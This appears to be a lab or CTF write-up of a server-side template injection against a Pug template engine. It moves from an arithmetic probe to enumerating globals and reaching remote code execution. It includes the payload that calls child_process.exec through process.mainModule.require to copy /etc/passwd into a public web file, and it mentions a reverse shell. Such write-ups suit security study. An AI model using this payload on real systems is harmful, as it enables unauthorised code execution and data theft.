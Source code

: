 # Template Engine Attack

## Template Engine Attack

* First try a basic XSS on the direct message 

![](../../../.gitbook/assets/c6a6ef763aa246ed9587d2bdbf973456.png)

* From Burp History request :

![](../../../.gitbook/assets/8885b6dc889c4715af2ffbe4b772a057.png)

Server Reply :

![](../../../.gitbook/assets/b96f2bccf8ed48e39dd5182a025f1947.png)

* Try to evaluate using simple arithmetic equation \(using 9\*9\) and check if the request is interpreted or not.  It was NOT \(didn't get 81\)

![](../../../.gitbook/assets/0cc1550278cf448184e5b9435c889359.png)

* In that particular case, we need to use the Pug functionnality to break out the template using a new line \(\n\) and a sign = .

\[new line\]=9\*9

**They both need to be URL encoded :**

```text
\n = %0a
= = %3d
```

![](../../../.gitbook/assets/6e280a6e0671480bbdd3892a1e8518e5.png)

We ve got 81 now !

Go for a shell , using child.process.exec function.

We need to find the which function are available trying to enumerate them \(/must be url encoded \):

We are looking for Require which is most probably linked to process and mainModule

• Get the global Object -&gt; \[new line\]=global

Plus %0a at start

![](../../../.gitbook/assets/50ec8c02a2a24ff38cadee23a1424da6.png)

![](../../../.gitbook/assets/6ec31b4843a842f59bef97d9081180ec.png)

* Parsing the global object \(using each iterator\):

  ```text
  each val, index in global
  p=index
  ```

![](../../../.gitbook/assets/825a26ecbb9c4bdda1dfb6ee441ae63d.png)

![](../../../.gitbook/assets/1ad1c21c7e4c4d739aaee6eb2a55b447.png)

* Try to iterate using index in global.process.WHATEVER : 

Found the require function :

![](../../../.gitbook/assets/b5c3a6e320a94aa89ed5b995fcfa1703.png)

* **Got for RCE using the require field :**

  ```text
  var x = global.process.mainModule.require
  x('child_process').exec('cat /etc/passwd >> /opt/web/chatSupportSystems/public/accounts.txt')
  ```

![](../../../.gitbook/assets/07ab6b3b899143a38d995e75fb1ea131.png)

* Inject

![](../../../.gitbook/assets/0bbb3fa44640495d895c936650da5a13.png)

![](../../../.gitbook/assets/e1b5b63e27c2492c8033deb7e823293f.png)

* get a revershe shell :

![](../../../.gitbook/assets/ff2c3e8fc5fa4185a9d1e33aa035202d.png)

![](../../../.gitbook/assets/86f79ce66dd547268eb7f4b251933c3f.png)

